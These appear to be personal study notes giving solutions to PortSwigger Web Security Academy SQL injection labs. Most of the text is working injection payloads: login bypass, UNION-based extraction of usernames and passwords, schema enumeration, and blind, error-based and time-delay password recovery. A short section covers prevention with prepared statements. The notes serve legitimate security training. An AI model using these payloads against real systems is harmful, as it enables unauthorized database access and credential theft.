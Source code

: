 ## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Solution: `https://...?category=Accessories%27%20or%201=1%20--`, namely: `category=Accessories' OR 1=1 --`

## Lab: SQL injection vulnerability allowing login bypass
Solution:  
Username: `administrator'--`


## UNION Attack
Requires:
- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

Use `' ORDER BY n--` or `' UNION SELECT NULL,NULL,NULL--`(or more NULLs) to determine how many columns returned.

## Lab: SQL injection UNION attack, determining the number of columns returned by the query
Solution: `?category=Gifts' UNION SELECT NULL, NULL, NULL --`

## Database-specific syntax
On Orale, `FROM` is a must and `DUAL` is a built-in table: `' UNION SELECT NULL FROM DUAL--`

For more: [SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Finding columns with a useful data type
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

## Lab: SQL injection UNION attack, finding a column containing text
Solution: `' OR 1=1 UNION SELECT NULL,'twDlg5',NULL --`

## Using a SQL injection UNION attack to retrieve interesting data
`' UNION SELECT username, password FROM users--`  
But How do you know there is a table called users, and two columns called username and password?

## Lab: SQL injection UNION attack, retrieving data from other tables
Solution: `' UNION SELECT username, password FROM users--`  

## Retrieving multiple values within a single column
`' UNION SELECT username || '~' || password FROM users--`

## Lab: SQL injection UNION attack, retrieving multiple values in a single column
Solution: `' UNION SELECT NULL, username || '~' || password FROM users--`

## Querying the database type and version
Microsoft, MySQL	`SELECT @@version`  
Oracle	`SELECT * FROM v$version`  
PostgreSQL	`SELECT version()`

e.g. : `' UNION SELECT @@version`

## Lab: SQL injection attack, querying the database type and version on Oracle
`' UNION SELECT banner, NULL FROM v$version--`

## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
Solution: `' UNION SELECT NULL, @@version--%20` **%20** is required at the end.

## Listing the contents of the database
Except(Oracle)  
`SELECT * FROM information_schema.tables`  
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```


## Lab: SQL injection attack, listing the database contents on non-Oracle databases
Solution:  
`' UNION SELECT TABLE_NAME, TABLE_TYPE FROM information_schema.tables --`  
`' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'users_klzxlx'--`  
`' UNION SELECT username_cyywpw, password_nrcufg FROM users_klzxlx --`  

## Lab: Blind SQL injection with conditional responses
Solution:  
`' AND SUBSTRING((SELECT Password FROM users WHERE Username = 'administrator'), 21, 1) > 'a'--`  
and  
`' AND SUBSTRING((SELECT Password FROM users WHERE Username = 'administrator'), 21, 1) = 'a'--`


## Lab: Blind SQL injection with conditional errors
Password length: `' AND (SELECT CASE WHEN (LENGTH((SELECT password FROM users WHERE username = 'administrator')) > 20) THEN TO_CHAR(1/0) ELSE '0' END FROM dual) > '1' --`

Password iteration: `AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), §1§, 1) = '§f§') THEN '0' ELSE TO_CHAR(1/0) END FROM dual) > '1' --` (Use Intrude, Pitchfork, though slow) 


## Lab: Visible error-based SQL injection
`='AND 2=CAST((SELECT password FROM users LIMIT 1) AS int)--`

## Lab: Blind SQL injection with time delays and information retrieval
Password Length: `' %3B SELECT CASE WHEN (LENGTH((SELECT password FROM users WHERE username = 'administrator')) = 20) THEN pg_sleep(0) ELSE pg_sleep(1) END--`

Password iteration: `' %3B SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 16, 1) > 'd') THEN pg_sleep(0) ELSE pg_sleep(1) END--`



## Lab: SQL injection with filter bypass via XML encoding

`UNION SELECT username || '~' || password FROM users--` need to be XML decoded.

## How to prevent SQL injection

Prepared Statement:
```
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

## Lab: SQL injection attack, listing the database contents on Oracle

1. `' UNION SELECT 'abc','def' FROM dual--`
2. `' UNION SELECT table_name,NULL FROM all_tables--`
3. `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name=...`